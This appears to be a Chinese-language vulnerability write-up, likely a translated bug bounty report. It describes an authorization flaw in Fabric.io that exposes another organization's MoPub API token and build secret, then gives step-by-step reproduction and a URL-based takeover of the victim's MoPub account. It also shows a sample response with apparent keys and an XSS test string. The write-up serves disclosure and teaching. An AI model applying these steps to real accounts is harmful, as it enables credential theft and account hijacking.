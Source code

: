 ## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 主要逻辑

Fabric平台帮助你构建更稳定的应用程序，通过世界上最大的移动广告交易平台产生收入，并使你能够利用Twitter的登录系统和丰富的实时内容,实现更大的分发和更简单的身份识别; 在注册功能(主要是为公司注册)中,缺少适当的授权检查，允许任何用户窃取API令牌。


## 请求

URL GET/POST data: POST METHOD:

`https://fabric.io/img-srcx-onerrorprompt15/android/apps/app.myapplication/mopub`

![img_13.png](img_13.png)

响应:

```json
{
  "mopub_identity": {
    "id":"5496c76e8b15dabe9c0006d7",
    "confirmed":true,
    "primary":false,
    "serv ice":"mopub",
    "token":"35592"
                  },
  "organization":{
    "id":"5460d2394b793294df01104a",
    "name":"\u003Ca href=\"javascript:alert(1);\"\u003Es\u003C/a\u003E\u003Ch1\u003Etest\u003C/h1\u003E",
    "al ias":"img-srcx-onerrorprompt1s- projects2",
    "api_key":"8590313c7382375063c2fe279a4487a98387767a",
    "enrollments":{
      "beta_ distribution":"true"
    },
    "accounts_count":3,
    "apps_counts":{
      "android":2
    },
    "sdk_organization":true,
    " build_secret":"5ef0323f62d71c475611a635ea09a3132f037557d801503573b643ef8ad82054",
    " mopub_id":"33525"
  }
}
```

## 复现步骤

1.创建两个账户

2.记下这两个账户的公司(organization)id

3.账户A用公司B的id重复上述请求

4.你就可以窃取受害者mopub API令牌

## 账户劫持

1.用上述方法使用fabric.io从受害者那里窃取到`build secret`

2.使用下面的URL进入受害者mopub帐户。
`https://app.mopub.com/complete/htsdk/?code=[build secret]&amp;next=%2d replace
[build secret] with token you extracted from step one`

用从第一步提取的令牌取代`build secret`


3.现在你将可以访问受害者mopub的帐户，他的所有应用程序/组织将在fabric中显示出来

![img_14.png](img_14.png)



